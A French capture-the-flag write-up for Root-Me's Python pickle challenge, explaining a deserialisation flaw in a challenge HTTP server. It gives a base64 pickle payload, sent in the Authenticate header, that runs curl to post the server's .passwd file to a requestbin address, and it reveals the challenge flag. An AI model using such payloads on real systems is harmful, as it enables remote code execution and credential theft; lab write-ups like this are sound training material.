





# Python - pickle

## Description : 
> Dans ce défi, un serveur HTTP est implémenté avec python.
> Comme le suggère la page du défi, la vulnérabilité affecte le module pickle de python, qui gère la sérialisation/désérialisation des objets python.
> 

## Exploit : 
> En se connectant au serveur avec `nc challenge02.root-me.org 60005` on peut interagir avec le serveur.
> L'interaction se fait à l'aide de verbes HTTP.
> 
> 
> 
> En suivant les messages d'erreur que le serveur envoie, il est possible de déterminer quels paramètres sont nécessaires pour injecter le payload.
> 
> 
> 
> Il faut donc fournir au header **Authenticate** le payload sous forme d'objet python encodé en **base64**.
> 
> Le payload en question, au moment de sa deserialization dans le serveur, executera une requete **POST** vers **requestbin** en incluant dans les paramètres le contenu du fichier **.passwd**.
> 
> 
> 
> Le payload généré est : **Y3Bvc2l4CnN5c3RlbQpwMQooUydjdXJsIC1YIFBPU1QgLWQgInBhc3M9JChjYXQgL2NoYWxsZW5nZS9hcHAtc2NyaXB0L2NoNS8ucGFzc3dkKSIgaHR0cHM6Ly9yZXF1ZXN0YmluLmlvLzFuOW92OXExJwpwMgp0UnA
> zCi4=**
> 
> On peut donc l'utiliser pour exploiter le serveur.
> 
> 
> 
> 
> 
> Le flag trouvé est : **6kSGEI2bh8bgRfCW** 